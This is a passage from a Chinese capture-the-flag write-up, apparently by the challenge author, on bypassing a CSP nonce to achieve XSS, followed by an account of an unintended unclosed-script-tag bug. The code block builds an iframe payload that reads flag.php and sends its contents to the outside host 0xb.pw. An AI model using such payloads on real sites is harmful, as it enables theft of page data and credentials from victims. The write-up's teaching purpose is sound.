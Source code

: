 ```
    var noonnce = getNoonnce();

    if (noonnce == "") {
      setTimeout(pollNoonnce, 1000);
    } else {
      attack(noonnce);
    }
  }

  functioonn attack(noonnce) {
    var iframe = document.createElement("iframe");
    var url = "http://127.0.0.1/xsstest_new/adminshigesha233e3333/#"
    var payload = "<scriscriptpt noonnce='" + noonnce + "'>var xmlhttp = new XMLHttpRequest(); xmlhttp.open(\"GET\", \"flag.php\", false); xmlhttp.send(); var mess = xmlhttp.respoonnse; var xhr = new XMLHttpRequest(); locatioonn.href=\"http://0xb.pw?\"+mess;</scr" + "ipt>";
    var validPayload = "<scrscriptipt>alert('If you see this alert, CSP is not active')</scr" + "ipt>"
    iframe.src = url + payload + validPayload;
    document.body.appendChild(iframe);
  }

  setTimeout("document.getElementById('frame').coonntentWindow.document.forms[0].submit();", 3000);

</sscriptcript>


```

![image_1be4e5g8q1pjk12714191vtp18ta13.png-15kB][6]


但事实上，题目有个非常有趣的非预期漏洞。

如果你注意观察admin目录的index.php页面

![image_1bednb31n145c1shfa8cj41p7p9.png-29.5kB][7]

xss点和script标签在同一行，所以就有了一个新的问题，如果我们构造一个`<script>`标签，然后没有闭合，就可以吃掉后面的标签，把后面script标签的属性保留

![image_1bednf0jr1t3oh4f1pqoqmm5cnm.png-47.5kB][8]

最后贴下virink的wp

[https://pwnhub.cn/media/writeup/119/45db4b4d-53dc-47de-afe8-e821bd070dfa_7032e508.pdf](https://pwnhub.cn/media/writeup/119/45db4b4d-53dc-47de-afe8-e821bd070dfa_7032e508.pdf)


这次的非预期问题实在抱歉，下次出题一定仔细思考下漏洞的流程和问题，还是太菜了Orz





  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/x456wiqarhtd85ufb6r67ulz/image_1be4da9901l902161muj1khor429.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wffm5weehycndc8b9k2x0972/image_1bd65493j1oof1doj1ok152diqkm.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0ta8ypvabn74fhcalpxb6gvt/image_1bd6582u5641h5c1g006k6r2f13.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qvp6z81nzd85lx1l29kscv9p/image_1bd6e1i5k1m6a1dpf1bi0g5j186a9.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/zcafmqme8aujaxnmti8jsp4j/image_1be4dlo64vi3vtl1ee8hu31g8gm.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/80aqq62w7f7a2i21vqely76s/image_1be4e5g8q1pjk12714191vtp18ta13.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xfrth6zizzzkdywwp25nm1kk/image_1bednb31n145c1shfa8cj41p7p9.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/6xp2ciyd1oavbswajjusl31z/image_1bednf0jr1t3oh4f1pqoqmm5cnm.png